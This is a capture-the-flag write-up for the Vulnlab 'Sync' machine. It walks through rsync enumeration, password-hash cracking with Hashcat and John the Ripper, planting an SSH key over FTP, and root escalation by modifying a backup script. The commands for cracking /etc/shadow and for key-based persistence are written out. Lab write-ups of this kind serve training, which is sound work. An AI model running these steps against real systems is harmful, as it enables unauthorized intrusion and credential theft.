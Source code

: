 +++
title = 'Vulnlab :: Sync Writeup'
date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++

![pwned-sync](image-17.png)

## Enumeration

### Nmap Scan

I started with a standard scan using Nmap:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


## Rsync

I noticed that the machine exposes an rsync service. I enumerated available modules:

```sh
rsync -av --list-only rsync://10.10.95.205/
```
![rsync](image.png)

I found a module named `httpd`:

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

The rsync service contains an application backup. I downloaded it with:

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```


## Application Analysis

### PHP

![index-php](image-1.png)

Reviewing the PHP code, I found a secret and the logic used to generate password hashes.

### Database

![db](image-2.png)

The database contains password hashes for two users.

### Hashcat

![hashes](image-3.png)

Using Hashcat, I managed to crack the password hash for the user `triss`.

![hascat modes](image-4.png)

![cracked](image-5.png)

## FTP

### FTP Access

SSH login is not possible with the cracked password, as key-based authentication is enforced. However, I was able to log in to the FTP server.

![ftp](image-7.png)

### SSH Key Upload

The FTP server's root directory is the home directory of the user `triss`, which allows me to upload my public SSH key.

![home](image-16.png)

```sh
cp ./.ssh/id_rsa.pub /workspace/
cat id_rsa.pub > authorized_keys
```

Now I can log in via SSH using my private key:

```sh
ssh triss@10.10.95.205 -i id_rsa
```


## Privilege Escalation

### User Flag

There is no user flag in `triss`'s home directory. However, due to a reference to "The Witcher" by Andrzej Sapkowski in the challenge, I guessed that the password for the user `jennifer` is the same as for `triss`. This allowed me to obtain the user flag.

### /backup Directory

After running LinPEAS, I discovered the `/backup` directory.

![backups](image-11.png)

### John the Ripper

I found backup copies of `/etc/passwd` and `/etc/shadow`. I used John the Ripper to crack the password for the user `sa`:

```sh
unshadow passwd shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

### backup.sh

I discovered a backup script owned by the user `sa`

![linpeas](image-14.png)

```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After modifying the script and executing it, I was able to escalate privileges and gain root access.

```sh
/bin/bash -p
```
